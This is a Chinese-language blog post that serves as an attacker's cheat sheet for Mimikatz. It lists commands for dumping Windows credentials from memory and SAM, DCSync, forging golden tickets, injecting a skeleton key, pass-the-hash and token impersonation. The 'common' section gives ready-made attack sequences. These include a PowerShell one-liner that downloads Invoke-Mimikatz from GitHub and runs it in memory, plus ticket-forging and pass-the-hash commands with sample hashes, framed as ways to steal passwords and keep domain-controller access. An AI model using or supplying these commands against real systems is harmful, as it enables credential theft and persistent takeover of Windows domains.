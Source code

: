 ```yaml
---
published: false
layout: post
---
```




# 常用的Mimikatz命令及相关功能
[下载链接](http://blog.gentilkiwi.com/mimikatz)

------------------------------


`CLS`---------------------------- 清屏
`CRYPTO::CERTIFICATES` –--------- 列出/导出凭证
`EXIT`--------------------------- 退出
`KERBEROS::GOLDEN` –------------- 创建黄金票证/白银票证/信任票证
`KERBEROS::LIST` ---------------- 列出在用户的内存中所有用户的票证（TGT 和 TGS）。不需要特殊的权限，因为它仅显示当前用户的票证。与 “KLIST” 的功能相似。
`KERBEROS::PTT` ----------------- 票证传递。通常用于注入窃取或伪造的 `KERBEROS` 票证（黄金票证/白银票证/信任票证）。
`LSADUMP::DCSYNC` --------------- 向 DC 发起同步一个对象（获取帐户的密码数据）的质询。无需在 DC 上执行代码。
`LSADUMP::LSA` –----------------- 向 LSA SERVER 质询检索 SAM/AD 的数据（正常或未打补丁的情况下）。可以从 DC 或者是一个LSASS.DMP 的转储文件中导出所有的 ACTIVE DIRECTORY 域凭证数据。同样也可以获取指定帐户的凭证，如 KRBTGT 帐户，使用 /NAME 参数，如：“/NAME:KRBTGT”
`LSADUMP::SAM` ------------------ 获取 SYSKEY 来解密 SAM 的项目数据（从注册表或者 HIVE 中导出）。SAM 选项可以连接到本地安全帐户管理器（SAM）数据库中并能转储本地帐户的凭证。可以用来转储在 WINDOWS 计算机上的所有的本地凭据。
`LSADUMP::TRUST` ---------------- 向 LSA SERVER 质询来获取信任的认证信息（正常或未打补丁的情况下）。为所有相关的受信的域或林转储信任密钥（密码）。
`MISC::ADDSID` –----------------- 将用户帐户添加到 SID 历史记录。第一个值是目标帐户，第二值是帐户/组名（可以是多个）（或 SID ）。
`MISC::MEMSSP` –----------------- 注入恶意的 WNDOWS SSP 来记录本地身份验证凭据。
`MISC::SKELETON` –--------------- 在 DC 中注入万能钥匙（SKELETON KEY） 到 LSASS 进程中。这使得所有用户所使用的万能钥匙修补 DC 使用 “主密码” （又名万能钥匙）以及他们自己通常使用的密码进行身份验证。
`NOGPO::CMD`--------------------- 打开系统的CMD.EXE
`NOGPO::REGEDIT` ---------------- 打开系统的注册表
`NOGPO::TASKMGR`----------------- 打开任务管理器
`PROCESS::LIST`------------------ 列出进程
`PROCESS::SUSPEND 进程名称` ------ 暂停进程
`PROCESS::STOP 进程名称`---------- 结束进程
`PROCESS::MODULES` -------------- 列出系统的核心模块及所在位置
`PRIVILEGE::DEBUG` -–------------ 获得 DEBUG 权限（很多 MIMIKATZ 命令需要 DEBUG 权限或本地 SYSTEM 权限）。
`PRIVILEGE::LIST`---------------- 列出权限列表
`PRIVILEGE::ENABLE`-------------- 激活一个或多个权限
`SYSTEM::USER`------------------- 查看当前登录的系统用户
`SYSTEM::COMPUTER`--------------- 查看计算机名称
`SERVICE::LIST`------------------ 列出系统的服务
`SERVICE::REMOVE`---------------- 移除系统的服务
`SERVICE::START STOP 服务名称`---- 启动或停止服务
`SEKURLSA::WDIGEST`-------------- 获取本地用户信息及密码
`SEKURLSA::TSPKG`---------------- 获取TSPKG用户信息及密码
`SEKURLSA::EKEYS` –-------------- 列出 KERBEROS 密钥
`SEKURLSA::KERBEROS` –----------- 列出所有已通过认证的用户的 KERBEROS 凭证（包括服务帐户和计算机帐户）
`SEKURLSA::KRBTGT` –------------- 获取域中 KERBEROS 服务帐户（KRBTGT）的密码数据
`SEKURLSA::LOGONPASSWORDS` –----- 列出所有可用的提供者的凭据。这个命令通常会显示最近登录过的用户和最近登录过的计算机的凭证。
`SEKURLSA::PTH` –---------------- HASH 传递 和 KEY 传递（注：OVER-PASS-THE-HASH 的实际过程就是传递了相关的 KEY(S)）
`SEKURLSA::TICKETS` –------------ 列出最近所有已经过身份验证的用户的可用的 KERBEROS 票证，包括使用用户帐户的上下文运行的服务和本地计算机在 AD 中的计算机帐户。与 KERBEROS::LIST 不同的是 SEKURLSA 使用内存读取的方式，它不会受到密钥导出的限制。
`TS::SESSIONS`------------------- 显示当前的会话
`TS::PROCESSES`------------------ 显示进程和对应的PID情况等
`TOKEN::LIST` –------------------ 列出系统中的所有令牌
`TOKEN::ELEVATE` –--------------- 假冒令牌。用于提升权限至 SYSTEM 权限（默认情况下）或者是发现计算机中的域管理员的令牌。
`TOKEN::ELEVATE /DOMAINADMIN` –-- 假冒一个拥有域管理员凭证的令牌。




-------------------------------------------------

常用

# 获取本机信息

* 直接获取内存口令 mimikatz：
`privilege::debug`
`sekurlsa::logonpasswords`

* 通过内存文件获取口令 使用procdump导出lsass.dmp mimikatz：
`sekurlsa::minidump lsass.dmp`
`sekurlsa::logonPasswords full`

* 通过powershell加载mimikatz获取口令
`powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz`

参考[3gstudent大神](http://static.hx99.net/static/drops/tips-7547.html):

`ms14-068.exe -u -p -s -d`
`kerberos::ptc test.ccache`

* 导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份（之前文章有介绍） mimikatz：
`lsadump::sam SYSTEM.hiv SAM.hiv`

# 维持域控权限

* Skeleton Key mimikatz：
`privilege::debug`
`misc::skeleton`

* golden ticket mimikatz：
`lsadump::lsa /patch`


* (Golden Ticket)生成万能票据： mimikatz：
`kerberos::golden /user:Administrator /domain:test.local /sid:S-1-5-21-2848411111-3820811111-1717111111 /krbtgt:d3b949b1f4ef947820f0950111111111 /ticket:test.kirbi`

* 导入票据： mimikatz：
`kerberos::ptt test.kirbi`

* Pass-The-Hash mimikatz：
`sekurlsa::pth /user:Administrator /domain:test.local /ntlm:cc36cf7a8514893efccd332446158b1a`

[mimikittenz](https://github.com/putterpanda/mimikittenz)是一款ps的抓密码的工具
![post1]({{ site.baseurl }}/images/post1.jpg)
